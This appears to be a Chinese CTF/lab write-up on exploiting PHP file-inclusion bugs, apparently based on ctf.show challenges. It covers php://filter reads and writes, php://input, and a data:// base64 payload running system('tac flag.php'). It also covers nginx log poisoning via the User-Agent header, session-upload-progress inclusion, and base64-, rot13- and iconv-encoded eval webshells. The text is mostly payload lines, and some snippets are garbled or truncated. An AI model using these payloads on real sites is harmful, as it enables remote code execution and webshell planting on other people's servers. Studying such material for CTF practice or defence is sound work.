# WEB攻防-PHP应用&文件包含&LFI&RFI&伪协议编码算法&无文件利用&黑白盒

本地包含




文件读取 （这个需要绝对路径）



不需要绝对路径

```
php://filter/read=convert.base64-encode/resource=phpinfo.php
```



利用转码工具



文件写入 利用post写入

```
file=php://input
```



另外一种写法 需要满足  CTF中出现

```
php://filter/write=convert.base64-encode/resource=phpinfo.php
```



题目1

当得知是文件包含时，查询当前目录



远程包含 连接哥斯拉



题目2 过滤了php就用base64&日志包含



```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==
```

日志包含

1、利用其他协议,如file,zlib等

2、利用日志记录UA特性包含执行

分析需文件名及带有php关键字放弃

故利用日志记录UA信息，UA带入代码

包含：/var/log/nginx/access.log

利用日志信息 将后面代码写入ua头



在包含这个日志  就会执行后门代码





继续把 写入ua头 

```
<?php system('cat f10g.php')?>  ///
```

包含日志最后得到结果 

第三关 过滤了掉了冒号和点 



SESSION包含

利用PHP_SESSION_UPLOAD_PROGRESS进行文件包含

自定义session名字，条件竞争访问session文件，触发创建新文件

抓包Cookie: PHPSESSID=111   ==创建session需要sessID，sessID保存在cookie里面==

```
<html>

<body>

<form action="http://xxxx.ctf.show/" method="POST" enctype="multipart/form-data">

  <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php                                                     ?>'?>" />

  <input type="file" name="file" />

  <input type="submit" value="submit" />

</form>

</body>

</html>
```

```
?file=/tmp/sess_111   ///访问
```



第四关



浏览器会自动解码一次，过滤掉PHP,两次编码不会过滤掉



1、利用base64:

url编码2次：php://filter/write=convert.base64-decode/resource=123.php 

content=aaPD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==

前面加aa是为了报错

2、利用凯撒13：

url编码2次：php://filter/write=string.rot13/resource=2.php

content=<?cuc riny($_CBFG[1]);?>







117-php://filter/write&新的算法

convert.iconv.：一种过滤器，和使用iconv()函数处理流数据有等同作用

<?php

                                                            ?>');

echo "经过一次反转:".$result."\n";

echo "经过第二次反转:".iconv("UCS-2LE","UCS-2BE", $result);

?>

Payload：file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php

contents=?<hp pvela$(P_SO[T]a;)>?



